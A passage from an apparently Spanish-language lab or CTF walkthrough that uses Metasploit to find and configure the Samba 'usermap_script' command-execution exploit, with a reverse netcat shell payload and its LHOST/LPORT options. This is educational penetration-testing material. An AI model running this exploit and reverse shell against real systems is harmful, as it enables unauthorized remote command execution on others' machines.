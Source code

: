<h2 id="UsandoMetas">Usando Metasploit</h2>

Una vez activado tan simple como lo habíamos hecho antes, buscamos el servicio para ver si hay un exploit y lo usamos:
```bash
msf6 > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script
```

Para usarlo solamente escribimos el nombre y el comando **use**:
```bash
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) >
```

Para ver cómo usarlo, usamos el comando **show options**:
```bash
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  **.**.**.**        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.
```
